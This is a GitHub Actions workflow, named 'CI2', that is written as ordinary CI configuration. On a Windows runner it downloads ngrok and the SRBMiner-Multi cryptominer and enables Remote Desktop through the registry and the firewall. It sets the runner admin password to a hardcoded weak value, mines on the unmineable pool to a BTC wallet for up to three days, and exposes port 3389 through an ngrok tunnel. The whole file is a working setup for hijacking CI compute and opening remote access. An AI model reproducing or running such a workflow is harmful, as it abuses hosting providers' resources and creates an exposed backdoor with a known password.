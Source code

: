 name: CI2

on: [push, workflow_dispatch]

jobs:
  build:
    runs-on: windows-latest
    timeout-minutes: 4320 # 3 days timeout, adjust as needed

    steps:
      - name: Print Current Directory
        run: |
          echo "Current Directory: $PWD"
      - name: Download ngrok
        run: |
          Invoke-WebRequest https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-windows-amd64.zip -OutFile ngrok.zip
      - name: Extract ngrok
        run: |
          Expand-Archive ngrok.zip
          echo "After Extraction - Current Directory: $PWD"
      - name: Download SRBMiner-Multi
        run: |
          Invoke-WebRequest https://github.com/doktor83/SRBMiner-Multi/releases/download/2.4.7/SRBMiner-Multi-2-4-7-win64.zip -OutFile SRBMiner.zip
          Expand-Archive SRBMiner.zip -DestinationPath $env:USERPROFILE\Desktop\SRBMiner-Multi-2-4-7-win64\
      - name: List Contents of SRBMiner Directory
        run: Get-ChildItem -Path $env:USERPROFILE\Desktop\SRBMiner-Multi-2-4-7-win64\
      - name: Auth
        run: .\ngrok\ngrok.exe authtoken $Env:NGROK_AUTH_TOKEN
        env:
          NGROK_AUTH_TOKEN: ${{ secrets.NGROK_AUTH_TOKEN }}
      - name: Enable TS
        run: Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
      - run: Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
      - run: Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1
      - run: Set-LocalUser -Name "runneradmin" -Password (ConvertTo-SecureString -AsPlainText "P@ssw0rd!" -Force)
      - name: Run SRBMiner-Multi
        run: |
          cd $env:USERPROFILE\Desktop\SRBMiner-Multi-2-4-7-win64\SRBMiner-Multi-2-4-7\
          .\SRBMiner-MULTI.exe --Algorithm randomx --Pool stratum+ssl://rx.unmineable.com:4444 --Wallet BTC:bc1q5pp474lrjgeufplp7nyke3cfgxc49qn99ll688.btcminer180
      - name: Create Tunnel
        timeout-minutes: 4320 # 3 days timeout
        run: .\ngrok\ngrok.exe tcp 3389
